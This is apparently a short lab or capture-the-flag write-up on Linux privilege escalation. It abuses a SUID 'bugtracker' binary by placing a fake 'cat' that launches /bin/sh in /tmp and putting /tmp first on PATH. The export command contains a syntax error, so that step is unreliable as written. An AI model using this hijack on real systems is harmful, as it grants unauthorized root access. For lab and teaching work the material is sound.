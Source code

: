 # Privilege Escalation
# SUID
Found a file with `find / -group bugtracker 2>/dev/null` that only members of `bugtracker` can execute. It has the SUID flag with root privileges.

```ad-info
SUID allows an alternate user to run an executable with the same permissions as the owner of the file instead of the permissions of the alternate user.
```

The file accept user input as a name of the file that will be read using `cat`, however, it does not specifies the whole path. Might be able to exploit this.

1. Create a file in /tmp directory named `cat` with this content:
```bash
/bin/sh
```

2. Set execute privileges:
```bash
$ chmod +x cat
```

3. Add /tmp directory to $PATH environmental variable.
```bash
export $PATH=/tmp:$PATH
```
```ad-info
PATH is an enviroment variable on Unix-like operating systems, DOS, OS/2, and Microsoft Windows, specifying a set of directorioes where executable programs are located.
```

4. Execute `bugtracker` from `/tmp` directory

